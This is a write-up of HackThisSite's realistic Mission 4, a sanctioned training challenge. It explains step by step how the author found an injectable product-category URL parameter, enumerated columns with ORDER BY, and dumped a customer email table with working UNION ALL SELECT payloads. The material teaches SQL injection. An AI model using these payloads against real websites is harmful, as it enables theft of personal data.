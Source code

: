 # Mission 4
https://www.hackthissite.org/playlevel/4/

From: SaveTheWhales

Message: Hello, I was referred to you by a friend who says you know how to hack into computers and web sites - well I was wondering if you could help me out here. There's this local store who is killing hundreds of animals a day exclusively for the purpose of selling jackets and purses etc out of their skin! I have been to their website and they have an email list for their customers. I was wondering if you could somehow hack in and send me every email address on that list? I want to send them a message letting them know of the murder they are wearing. Just reply to this message with a list of the email addresses. Please?

**Answer:** The website we're targeting has a list of customer email addresses and we're tasked with getting them. A list of email addresses almost certainly means we're dealing with a database, and we've seen databases are susceptible to SQL injection attacks. So, without even seeing the site in detail yet, it sounds like that's our attack vector.

Click into the mission and it looks like a mom-and-pop business website. There are two pages with product contents, generated using some sort of PHP script (as evidenced by the products.php literal which appears in the URL structure when you open those pages). On the main page, there's a form to fill out to sign up for the mailing list. Enter a string which looks like a valid email address, click add to list, and you get a message saying 'Email added successfully'.

I thought maybe the solution was similar to the one in Mission 2, so I tried some of the common SQL injections I found [here](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens). None seemed to work, but I did get this error message: 'Error inserting into table "email"! Email not valid! Please contact an administrator of Fischer's'.

The error message never changed, so it got me thinking the solution wasn't as simple as putting the payload into the form box. But this message does reveal an important detail: the table containing the email addresses we want is named email. If only there was somewhere I could run a SQL query like `SELECT * FROM email;` or `SELECT email FROM email;`, that would give me what I'm looking for. Hmm.

Since the mailing list form seemed to be a dead end, I went back to the two product listing pages, https://www.hackthissite.org/missions/realistic/4/products.php?category=1 and https://www.hackthissite.org/missions/realistic/4/products.php?category=2. That's when I realized these pages must be associated with another database. The category=1 and category=2 parts of the URLs are parameters for querying this second database. What happens if we give this database an invalid input, like an invalid category value? In a secure world, I should get a 404 HTTP response.

I tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=3 and a white page loaded. I didn't explicitly get a 404 response, so to confirm I opened developer tools, pulled open the network tab so I could view the flow of HTTP requests, and reloaded the page. Sure enough, I could see the document returned a 200 response code. In other words, we just gave the site an input it absolutely should have rejected as invalid, but it didn't.

We seem to have a way in via this URL loophole which allows us to tamper with the SQL queries being executed on the backend. I wildly tried a URL like https://www.hackthissite.org/missions/realistic/4/products.php?category=SELECT%20email%20FROM%20email (%20 is the URI encoding for spaces, so really the query was `SELECT email FROM email;`) and got a broken image in my response. This seems promising because we got another unexpected output, but it's clearly not what we're hoping for -- we want email addresses!

At this point I stepped back and thought through what we've discovered, as well as what I knew about SQL:
* The data we want is stored in a table called email.
* The table likely has only one column, and it's probably called email as well (this I guessed because the form from https://www.hackthissite.org/missions/realistic/4/ has the name email).
* The https://www.hackthissite.org/missions/realistic/4/products.php?category= URL structure is meant to query a different table, perhaps called products.
* Most SQL implementations give users the ability to select columns from multiple tables using the [UNION or UNION ALL](https://www.w3schools.com/sql/sql_ref_union.asp) commands (this I knew through prior experience with SQL). But a URL like https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20email%20FROM%20email doesn't seem to work either.

I read some hints online that using the ORDER BY command would be helpful in learning about the products table schema. So I tried the following:
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1 loads the page as intended.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DASC flips the sorting of the page contents according to the pictures. This suggests the image data type is the first column in the products table.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DESC AND https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DASC didn't change the page contents. But there's a common string, 'A big hairy fur coat that is made of fuzzy cute animals that we mercilessly slaughtered' in each product description, so this means the product description is probably the second column. It's a string data type.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20ASC sorts by price. This means price is the third column, probably as a string, too.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420ASC didn't change any sorting again. But in many SQL tables there's an ID column, so maybe this is it.
* URLs containing https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%205 returned the broken image icon. I think that means there's no fifth column. The products table only has four columns, which makes sense.

This explains a lot. UNION ALL requires there to be the same number of columns in the tables you're selecting from. As far as we know the email table only has one column, but we can fake more using NULL in our SELECT statement, like this: `SELECT email, NULL, NULL, NULL FROM email`.

I tried https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20email,%20null,%20null,%20null%20FROM%20email. The page loads with the usual page contents, but if you scroll down there are nine additional broken images. This seems close, but the issue now is the data types aren't right. If the first column of the products table is an image, SQL is expecting the first column of email to also be an image. The email column is a string, so we need that column to line up with another string column in the product table -- the second column of the product table will do the trick. We need to change our SQL query to `SELECT NULL, email, NULL, NULL FROM email`. OR `SELECT NULL, NULL, email, NULL FROM email`.

Try https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20email,%20null,%20null%20FROM%20email or https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20null,%20email,%20null%20FROM%20email, and there are your email addresses. Copy them and message them to SaveTheWhales.

**Key Ideas:** For me this mission expanded on SQL injection knowledge. A form bypass isn't the only way to trigger a SQL injection table dump; you can also trigger one with a well-crafted URL payload. The misdirection was also fun to work through. After throwing a bunch of classic SQL injection payloads at the mailing list form and not getting a different error message, I figured I should try my luck elsewhere. Realizing I could enter invalid inputs into the https://www.hackthissite.org/missions/realistic/4/products.php?category= made me realize I was onto something, even though I needed a few hints to properly sketch out what the solution entailed.